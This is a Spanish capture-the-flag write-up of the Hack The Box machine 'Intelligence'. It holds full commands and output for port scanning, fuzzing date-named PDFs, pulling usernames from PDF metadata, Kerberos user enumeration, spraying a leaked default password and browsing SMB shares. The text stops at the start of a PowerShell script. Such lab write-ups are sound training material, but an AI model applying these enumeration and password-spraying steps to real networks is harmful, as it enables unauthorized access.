





# Resolución maquina Intelligence

**Autor:** PepeMaquina.
**Fecha:** 23 de Marzo de 2026.
**Dificultad:** Medium.
**Sistema Operativo:** Windows.
**Tags:** Metadata, DNS Poison, Redelegation.

---
## Imagen de la Máquina

*Imagen: Intelligence.JPG*
## Reconocimiento Inicial
### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 4000 -n -Pn 10.129.95.154 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p53,80,88,135,139,389,445,464,593,636,3268,3269,9389,49666,49691,49692,49711,49717 10.129.95.154 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Intelligence
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-24 06:04:21Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-03-24T06:05:51+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-03-24T06:05:52+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-03-24T06:05:51+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-03-24T06:05:51+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
49717/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
~~~
### Enumeración del dominio DC
Lo primero que se realizo es ver el nombre del dominio y nombre del DC.
~~~bash
┌──(kali㉿kali)-[~/htb/intelligence/nmap]
└─$ sudo netexec smb 10.129.95.154 -u '' -p ''                                       
SMB         10.129.95.154   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.129.95.154   445    DC               [+] intelligence.htb\: 
~~~
Todo ello se agrega al `/etc/hosts`
~~~bash
┌──(kali㉿kali)-[/opt/bloodhound-ce]
└─$ cat /etc/hosts | grep '10.129.95.154'
10.129.95.154 intelligence.htb dc dc.intelligence.htb
~~~
Para realizar enumeracion se intento ingresar con credenciales nulas y credenciales como invitado, pero nada de esto fue posible.
### Enumeración dentro de la pagina web
Al revisar la pagina web se puede ver una pagina muy estatica si mucho contenido, pero este tiene dos enlaces con los que se puede descargar contenido `.pdf`.

Al ingresar en el se logra ver contenido en un lenguaje raro, donde al pasarlo por el traductor de google parece ser algo de latino pero no tiene mucha informacion mas que un mensaje motivacional.

Al realizar enumeración por subdorectorios tampoco se logra ver algo importante, mas que otro documento parecido.
~~~bash
┌──(kali㉿kali)-[~/htb/intelligence/nmap]
└─$ feroxbuster -u http://intelligence.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -d 0 -t 5 -o fuzz -k -x asp,aspx
                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://intelligence.htb/
 🚀  Threads               │ 5
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💾  Output File           │ fuzz
 💲  Extensions            │ [asp, aspx]
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ INFINITE
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       29l       95w     1245c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      106l      659w    26989c http://intelligence.htb/documents/demo-image-01.jpg
200      GET      209l      800w    48542c http://intelligence.htb/documents/2020-12-15-upload.pdf
200      GET        8l       29w    28898c http://intelligence.htb/documents/favicon.ico
200      GET      208l      768w    47856c http://intelligence.htb/documents/2020-01-01-upload.pdf
200      GET        2l     1297w    89476c http://intelligence.htb/documents/jquery.min.js
200      GET       56l      165w     1850c http://intelligence.htb/documents/scripts.js
200      GET    10345l    19793w   190711c http://intelligence.htb/documents/styles.css
200      GET        1l       44w     2532c http://intelligence.htb/documents/jquery.easing.min.js
200      GET      492l     2733w   186437c http://intelligence.htb/documents/demo-image-02.jpg
200      GET        7l     1031w    84152c http://intelligence.htb/documents/bootstrap.bundle.min.js
403      GET       29l       92w     1233c http://intelligence.htb/documents/
200      GET        5l   108280w  1194960c http://intelligence.htb/documents/all.js
~~~

Teniendo esto en mente, puede que exista mas de un archivo que seguramente pueda contener mas archivos y con suerte uno tenga datos confidenciales, no se tiene otra cosa mas en mente para poder vulnerar, asi que no se pierde nada intentando este metodo.
Para ello se diseño un pequeño script para generar todas fechas en formato correspodiente para el año 2020.
~~~bash
┌──(kali㉿kali)-[~/htb/intelligence/exploits]
└─$ for d in {01..31}; do
  for m in {01..12}; do
    echo "2020-$m-$d-upload.pdf"
  done
done > fechas.txt
~~~
Con todos esos datos se fuzea la web intentando encontrar archivos utiles.
~~~bash
┌──(kali㉿kali)-[~/htb/intelligence/exploits]
└─$ ffuf -w fechas.txt -u 'http://intelligence.htb/documents/FUZZ' -c

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://intelligence.htb/documents/FUZZ
 :: Wordlist         : FUZZ: /home/kali/htb/intelligence/exploits/fechas.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

2020-04-02-upload.pdf   [Status: 200, Size: 11466, Words: 156, Lines: 134, Duration: 154ms]
2020-06-03-upload.pdf   [Status: 200, Size: 11381, Words: 160, Lines: 136, Duration: 171ms]
2020-01-01-upload.pdf   [Status: 200, Size: 26835, Words: 241, Lines: 209, Duration: 139ms]
2020-08-01-upload.pdf   [Status: 200, Size: 27038, Words: 228, Lines: 205, Duration: 143ms]
2020-05-01-upload.pdf   [Status: 200, Size: 28228, Words: 237, Lines: 194, Duration: 144ms]
2020-04-04-upload.pdf   [Status: 200, Size: 27949, Words: 226, Lines: 208, Duration: 145ms]
2020-09-02-upload.pdf   [Status: 200, Size: 27148, Words: 215, Lines: 203, Duration: 147ms]
2020-11-01-upload.pdf   [Status: 200, Size: 26599, Words: 237, Lines: 186, Duration: 149ms]
2020-06-02-upload.pdf   [Status: 200, Size: 27797, Words: 236, Lines: 212, Duration: 152ms]
2020-07-02-upload.pdf   [Status: 200, Size: 27320, Words: 236, Lines: 202, Duration: 156ms]
2020-01-02-upload.pdf   [Status: 200, Size: 27002, Words: 229, Lines: 199, Duration: 157ms]
2020-05-03-upload.pdf   [Status: 200, Size: 26093, Words: 233, Lines: 208, Duration: 160ms]
2020-10-05-upload.pdf   [Status: 200, Size: 11248, Words: 162, Lines: 127, Duration: 167ms]
2020-03-04-upload.pdf   [Status: 200, Size: 26194, Words: 235, Lines: 202, Duration: 162ms]
2020-11-03-upload.pdf   [Status: 200, Size: 25568, Words: 222, Lines: 186, Duration: 165ms]
2020-01-04-upload.pdf   [Status: 200, Size: 27522, Words: 223, Lines: 196, Duration: 169ms]
2020-08-03-upload.pdf   [Status: 200, Size: 25405, Words: 247, Lines: 189, Duration: 169ms]
2020-07-06-upload.pdf   [Status: 200, Size: 24966, Words: 217, Lines: 183, Duration: 139ms]
2020-06-04-upload.pdf   [Status: 200, Size: 26922, Words: 222, Lines: 220, Duration: 141ms]
2020-09-04-upload.pdf   [Status: 200, Size: 26986, Words: 245, Lines: 194, Duration: 144ms]
2020-11-06-upload.pdf   [Status: 200, Size: 25964, Words: 251, Lines: 220, Duration: 156ms]
2020-08-09-upload.pdf   [Status: 200, Size: 11611, Words: 161, Lines: 144, Duration: 144ms]
2020-01-10-upload.pdf   [Status: 200, Size: 26400, Words: 232, Lines: 205, Duration: 153ms]
2020-06-12-upload.pdf   [Status: 200, Size: 11575, Words: 159, Lines: 128, Duration: 141ms]
2020-09-13-upload.pdf   [Status: 200, Size: 26521, Words: 219, Lines: 212, Duration: 139ms]
2020-11-13-upload.pdf   [Status: 200, Size: 11074, Words: 153, Lines: 134, Duration: 138ms]
2020-05-07-upload.pdf   [Status: 200, Size: 26062, Words: 225, Lines: 183, Duration: 151ms]
2020-11-11-upload.pdf   [Status: 200, Size: 26461, Words: 226, Lines: 206, Duration: 143ms]
2020-04-15-upload.pdf   [Status: 200, Size: 26689, Words: 227, Lines: 212, Duration: 138ms]
2020-09-06-upload.pdf   [Status: 200, Size: 25551, Words: 238, Lines: 193, Duration: 144ms]
2020-06-15-upload.pdf   [Status: 200, Size: 27121, Words: 245, Lines: 206, Duration: 141ms]
2020-03-13-upload.pdf   [Status: 200, Size: 24888, Words: 213, Lines: 204, Duration: 138ms]
2020-05-11-upload.pdf   [Status: 200, Size: 27244, Words: 243, Lines: 207, Duration: 142ms]
2020-06-08-upload.pdf   [Status: 200, Size: 11540, Words: 165, Lines: 135, Duration: 147ms]
2020-10-19-upload.pdf   [Status: 200, Size: 27196, Words: 244, Lines: 213, Duration: 138ms]
2020-05-20-upload.pdf   [Status: 200, Size: 27480, Words: 215, Lines: 200, Duration: 137ms]
2020-09-05-upload.pdf   [Status: 200, Size: 26417, Words: 210, Lines: 193, Duration: 162ms]
2020-06-07-upload.pdf   [Status: 200, Size: 27937, Words: 240, Lines: 217, Duration: 502ms]
2020-08-20-upload.pdf   [Status: 200, Size: 10711, Words: 171, Lines: 133, Duration: 137ms]
2020-12-20-upload.pdf   [Status: 200, Size: 11902, Words: 163, Lines: 137, Duration: 141ms]
2020-09-11-upload.pdf   [Status: 200, Size: 12098, Words: 156, Lines: 146, Duration: 139ms]
2020-03-05-upload.pdf   [Status: 200, Size: 26124, Words: 221, Lines: 205, Duration: 156ms]
2020-07-08-upload.pdf   [Status: 200, Size: 11910, Words: 167, Lines: 141, Duration: 802ms]
2020-12-10-upload.pdf   [Status: 200, Size: 26762, Words: 224, Lines: 200, Duration: 139ms]
2020-03-21-upload.pdf   [Status: 200, Size: 11250, Words: 157, Lines: 134, Duration: 136ms]
2020-07-20-upload.pdf   [Status: 200, Size: 12100, Words: 162, Lines: 138, Duration: 138ms]
2020-11-10-upload.pdf   [Status: 200, Size: 25472, Words: 229, Lines: 216, Duration: 760ms]
2020-02-11-upload.pdf   [Status: 200, Size: 25245, Words: 241, Lines: 198, Duration: 143ms]
2020-07-24-upload.pdf   [Status: 200, Size: 26321, Words: 211, Lines: 207, Duration: 143ms]
2020-11-24-upload.pdf   [Status: 200, Size: 11412, Words: 151, Lines: 133, Duration: 137ms]
2020-03-17-upload.pdf   [Status: 200, Size: 27227, Words: 221, Lines: 210, Duration: 140ms]
2020-03-12-upload.pdf   [Status: 200, Size: 27143, Words: 233, Lines: 213, Duration: 138ms]
2020-08-19-upload.pdf   [Status: 200, Size: 26885, Words: 231, Lines: 214, Duration: 144ms]
2020-01-22-upload.pdf   [Status: 200, Size: 28637, Words: 236, Lines: 224, Duration: 149ms]
2020-06-14-upload.pdf   [Status: 200, Size: 26443, Words: 236, Lines: 186, Duration: 142ms]
2020-06-25-upload.pdf   [Status: 200, Size: 10662, Words: 157, Lines: 142, Duration: 144ms]
2020-01-20-upload.pdf   [Status: 200, Size: 11632, Words: 157, Lines: 127, Duration: 142ms]
2020-09-27-upload.pdf   [Status: 200, Size: 26809, Words: 248, Lines: 227, Duration: 155ms]
2020-02-17-upload.pdf   [Status: 200, Size: 11228, Words: 167, Lines: 132, Duration: 744ms]
2020-09-22-upload.pdf   [Status: 200, Size: 25072, Words: 225, Lines: 194, Duration: 137ms]
2020-09-29-upload.pdf   [Status: 200, Size: 24586, Words: 228, Lines: 221, Duration: 147ms]
2020-12-24-upload.pdf   [Status: 200, Size: 26825, Words: 234, Lines: 209, Duration: 139ms]
2020-02-28-upload.pdf   [Status: 200, Size: 11543, Words: 167, Lines: 131, Duration: 142ms]
2020-06-28-upload.pdf   [Status: 200, Size: 26390, Words: 216, Lines: 208, Duration: 141ms]
2020-01-25-upload.pdf   [Status: 200, Size: 26252, Words: 225, Lines: 193, Duration: 149ms]
2020-05-29-upload.pdf   [Status: 200, Size: 11532, Words: 159, Lines: 132, Duration: 139ms]
2020-06-26-upload.pdf   [Status: 200, Size: 27338, Words: 236, Lines: 205, Duration: 137ms]
2020-01-30-upload.pdf   [Status: 200, Size: 26706, Words: 242, Lines: 193, Duration: 143ms]
2020-06-22-upload.pdf   [Status: 200, Size: 26278, Words: 239, Lines: 207, Duration: 137ms]
2020-12-30-upload.pdf   [Status: 200, Size: 25109, Words: 218, Lines: 191, Duration: 138ms]
2020-12-15-upload.pdf   [Status: 200, Size: 27242, Words: 242, Lines: 210, Duration: 148ms]
2020-01-23-upload.pdf   [Status: 200, Size: 11557, Words: 167, Lines: 136, Duration: 140ms]
2020-06-21-upload.pdf   [Status: 200, Size: 26060, Words: 246, Lines: 210, Duration: 137ms]
2020-11-30-upload.pdf   [Status: 200, Size: 27286, Words: 252, Lines: 207, Duration: 141ms]
2020-05-21-upload.pdf   [Status: 200, Size: 26255, Words: 251, Lines: 194, Duration: 142ms]
2020-05-24-upload.pdf   [Status: 200, Size: 11857, Words: 174, Lines: 149, Duration: 141ms]
2020-02-23-upload.pdf   [Status: 200, Size: 27378, Words: 247, Lines: 213, Duration: 139ms]
2020-04-23-upload.pdf   [Status: 200, Size: 24865, Words: 224, Lines: 212, Duration: 139ms]
2020-06-30-upload.pdf   [Status: 200, Size: 25634, Words: 234, Lines: 194, Duration: 145ms]
2020-09-30-upload.pdf   [Status: 200, Size: 26080, Words: 244, Lines: 197, Duration: 140ms]
2020-02-24-upload.pdf   [Status: 200, Size: 27332, Words: 237, Lines: 206, Duration: 139ms]
2020-12-28-upload.pdf   [Status: 200, Size: 11480, Words: 164, Lines: 127, Duration: 137ms]
2020-09-16-upload.pdf   [Status: 200, Size: 26959, Words: 236, Lines: 207, Duration: 152ms]
2020-05-17-upload.pdf   [Status: 200, Size: 26448, Words: 239, Lines: 207, Duration: 143ms]
:: Progress: [372/372] :: Job [1/1] :: 85 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
~~~
Se logro encontrar una gran variedad de archivos y/o fechas permitidas, seguramente estos contengan informacion interesante, la idea seria verlos uno por uno y ver su contenido, o mejor aun automatizar el proceso.
Pero en mi caso me dio flojera programar y soy muy suertudo, ya que al ver un archivo random si se logro ver una contraseña por defecto. `2020-06-04-upload.pdf`.

Este mensaje indica que existe una contraseña por defecto para usuarios `NewIntelligenceCorpUser9876`, lo malo es que no se tienen usuarios disponibles.
Para encontrar usuarios se me ocurrio descargar los pdf y revisar los metadatos, por si alguno contiene un usuario, al descargar uno random se puede ver que si pertenece a un usuario utilizando la herramienta `exiftool`.
~~~bash
┌──(kali㉿kali)-[~/htb/intelligence/content]
└─$ exiftool 2020-11-01-upload.pdf  
ExifTool Version Number         : 13.10
File Name                       : 2020-11-01-upload.pdf
Directory                       : .
File Size                       : 27 kB
File Modification Date/Time     : 2026:03:23 19:48:37-04:00
File Access Date/Time           : 2026:03:23 19:48:37-04:00
File Inode Change Date/Time     : 2026:03:23 19:48:37-04:00
File Permissions                : -rw-rw-r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 1
Creator                         : Kaitlyn.Zimmerman
~~~
Para validar la existencia de este usuario se lo vio con `kerbrute`.
~~~bash
┌──(kali㉿kali)-[~/htb/intelligence]
└─$ /opt/windows/fuerzabruta/kerbrute_linux_amd64 userenum -d intelligence.htb --dc 10.129.95.154 users                                                    

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/23/26 - Ronnie Flathers @ropnop

2026/03/23 19:50:03 >  Using KDC(s):
2026/03/23 19:50:03 >   10.129.95.154:88

2026/03/23 19:50:03 >  [+] VALID USERNAME:       Kaitlyn.Zimmerman@intelligence.htb
2026/03/23 19:50:03 >  Done! Tested 1 usernames (1 valid) in 0.137 seconds
~~~
El usuario si es valido, pero lastimosamente la contraseña no coindice.
~~~bash
┌──(kali㉿kali)-[~/htb/intelligence]
└─$ sudo netexec smb 10.129.95.154 -u users -p pass                                  
SMB         10.129.95.154   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)                                                                                                                                                       
SMB         10.129.95.154   445    DC               [-] intelligence.htb\Kaitlyn.Zimmerman:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
~~~

Al descargar otro archivo y volver inspeccionarlo, se puede ver que corresponde a otro usuario.
~~~bash
┌──(kali㉿kali)-[~/htb/intelligence/content]
└─$ exiftool 2020-06-04-upload.pdf 
ExifTool Version Number         : 13.10
File Name                       : 2020-06-04-upload.pdf
Directory                       : .
File Size                       : 27 kB
File Modification Date/Time     : 2026:03:23 20:05:07-04:00
File Access Date/Time           : 2026:03:23 20:05:07-04:00
File Inode Change Date/Time     : 2026:03:23 20:05:07-04:00
File Permissions                : -rw-rw-r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 1
Creator                         : Jason.Patterson
~~~
Esto puede decir que cada archivo pdf si contiene un usuario diferente, esto viene a ser la mejor forma de enumerar y conseguir usuarios, lo mejor seria automatizarlo, pero pensando que tendria suerte se logro encontrar el usuario correcto el `2020-09-22-upload.pdf`.
~~~bash
┌──(kali㉿kali)-[~/htb/intelligence/content]
└─$ exiftool 2020-09-22-upload.pdf 
ExifTool Version Number         : 13.10
File Name                       : 2020-09-22-upload.pdf
Directory                       : .
File Size                       : 25 kB
File Modification Date/Time     : 2026:03:23 20:30:37-04:00
File Access Date/Time           : 2026:03:23 20:30:37-04:00
File Inode Change Date/Time     : 2026:03:23 20:30:37-04:00
File Permissions                : -rw-rw-r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 1
Creator                         : Tiffany.Molina
~~~
Este usuario si tiene acceso al dominio con las credenciales por defecto.
~~~bash
┌──(kali㉿kali)-[~/htb/intelligence]
└─$ sudo netexec smb 10.129.95.154 -u users -p pass
[sudo] password for kali: 
SMB         10.129.95.154   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)                                                                                      <----SNIP---->                                                                 
SMB         10.129.95.154   445    DC               [-] intelligence.htb\John.Coleman:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         10.129.95.154   445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
~~~
Al enumerar recursos compartidos se tiene acceso a `users` que seguramente sea el directorio de trabajo del usuario y `IT` que es mas interesante.
Al revisar `Users`.
~~~bash
┌──(kali㉿kali)-[~/htb/intelligence]
└─$ sudo netexec smb 10.129.95.154 -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --shares
SMB         10.129.95.154   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.129.95.154   445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
SMB         10.129.95.154   445    DC               [*] Enumerated shares
SMB         10.129.95.154   445    DC               Share           Permissions     Remark
SMB         10.129.95.154   445    DC               -----           -----------     ------
SMB         10.129.95.154   445    DC               ADMIN$                          Remote Admin
SMB         10.129.95.154   445    DC               C$                              Default share
SMB         10.129.95.154   445    DC               IPC$            READ            Remote IPC
SMB         10.129.95.154   445    DC               IT              READ            
SMB         10.129.95.154   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.95.154   445    DC               SYSVOL          READ            Logon server share 
SMB         10.129.95.154   445    DC               Users           READ
~~~

~~~bash
┌──(kali㉿kali)-[~/htb/intelligence]
└─$ smbclient '//10.129.95.154/Users' -U 'Tiffany.Molina'
Password for [WORKGROUP\Tiffany.Molina]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sun Apr 18 21:20:26 2021
  ..                                 DR        0  Sun Apr 18 21:20:26 2021
  Administrator                       D        0  Sun Apr 18 20:18:39 2021
  All Users                       DHSrn        0  Sat Sep 15 03:21:46 2018
  Default                           DHR        0  Sun Apr 18 22:17:40 2021
  Default User                    DHSrn        0  Sat Sep 15 03:21:46 2018
  desktop.ini                       AHS      174  Sat Sep 15 03:11:27 2018
  Public                             DR        0  Sun Apr 18 20:18:39 2021
  Ted.Graves                          D        0  Sun Apr 18 21:20:26 2021
  Tiffany.Molina                      D        0  Sun Apr 18 20:51:46 2021
~~~
Efectivamente es la carpeta `Users` del dominio, seguramente se tiene la user flag.

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`
### User Flag
Con acceso a la carpeta de trabajo con SMB ya se puede tener acceso al user flag.
~~~bash
smb: \Tiffany.Molina\Desktop\>ls
  .                                  DR        0  Sun Apr 18 20:51:46 2021
  ..                                 DR        0  Sun Apr 18 20:51:46 2021
  user.txt                           AR       34  Tue Mar 24 02:00:27 2026

                3770367 blocks of size 4096. 1454103 blocks available
smb: \Tiffany.Molina\Desktop\> get user.txt 
getting file \Tiffany.Molina\Desktop\user.txt of size 34 as user.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \Ted.Graves\> exit
                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/intelligence]
└─$ cat user.txt

<Encuentre su propia user flag>
~~~

---
## Escalada de Privilegios
Para escalar privilegios se puede que en el recurso compartido existe el usuario `ted.graves`.
~~~bash
smb: \> ls
  .                                  DR        0  Sun Apr 18 21:20:26 2021
  ..                                 DR        0  Sun Apr 18 21:20:26 2021
  Administrator                       D        0  Sun Apr 18 20:18:39 2021
  All Users                       DHSrn        0  Sat Sep 15 03:21:46 2018
  Default                           DHR        0  Sun Apr 18 22:17:40 2021
  Default User                    DHSrn        0  Sat Sep 15 03:21:46 2018
  desktop.ini                       AHS      174  Sat Sep 15 03:11:27 2018
  Public                             DR        0  Sun Apr 18 20:18:39 2021
  Ted.Graves                          D        0  Sun Apr 18 21:20:26 2021
  Tiffany.Molina                      D        0  Sun Apr 18 20:51:46 2021
~~~
Saliendo del recurso `Users`, se ingresa a `IT`.
~~~bash
┌──(kali㉿kali)-[~/htb/intelligence]
└─$ smbclient '//10.129.95.154/IT' -U 'Tiffany.Molina'                           
Password for [WORKGROUP\Tiffany.Molina]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Apr 18 20:50:55 2021
  ..                                  D        0  Sun Apr 18 20:50:55 2021
  downdetector.ps1                    A     1046  Sun Apr 18 20:50:55 2021

                3770367 blocks of size 4096. 1454103 blocks available
smb: \> get downdetector.ps1 
getting file \downdetector.ps1 of size 1046 as downdetector.ps1 (1.9 KiloBytes/sec) (average 1.9 KiloBytes/sec)
smb: \> exit
~~~
Se logra ver un unico archivo que se descarga y se ve el contenido.
~~~bash
┌──(kali㉿kali)-[~/htb/intelligence]
└─$ cat downdetector.ps1                                 
# Check web server status. Scheduled to run every 5min
